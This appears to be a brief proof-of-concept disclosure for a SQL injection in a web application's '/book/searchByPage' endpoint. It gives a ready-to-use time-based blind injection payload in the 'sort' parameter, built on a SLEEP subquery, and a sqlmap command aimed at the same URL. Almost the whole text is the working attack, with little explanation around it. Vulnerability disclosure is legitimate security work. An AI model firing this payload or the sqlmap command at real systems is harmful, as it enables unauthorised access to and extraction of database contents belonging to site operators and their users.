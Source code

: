 ## pocs
Send a get request to "http://192.168.56.1:8083/book/searchByPage", 
payload: 
```
http://domain/book/searchByPage?curr=1&limit=20&keyword=a&sort=last_index_update_time)%20AS%20sJJn%20WHERE%204712=4712%20AND%20(SELECT%208463%20FROM%20(SELECT(SLEEP(5)))BRss)--
``` 
## sqlmap
```
sqlmap -u http://domain/book/searchByPage?curr=1&limit=20&keyword=a&sort=last_index_update_time
```
